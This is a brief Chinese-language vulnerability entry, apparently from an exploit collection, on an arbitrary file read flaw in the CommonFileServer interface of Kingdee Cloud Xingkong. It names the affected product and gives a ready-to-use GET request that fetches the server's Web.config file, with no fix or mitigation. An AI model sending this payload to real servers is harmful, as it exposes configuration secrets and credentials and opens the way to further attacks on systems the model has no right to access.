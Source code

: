 **漏洞描述：**

金蝶OA 云星空 CommonFileServer接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件，进一步攻击服务器。

**影响版本：**

金蝶OA 云星空

**Payload：**

```
GET /CommonFileServer/C%3A%5CProgram%20Files%20%28x86%29%5CKingdee%5CK3Cloud%5CWebSite%5CWeb.config HTTP/1.1
```

---
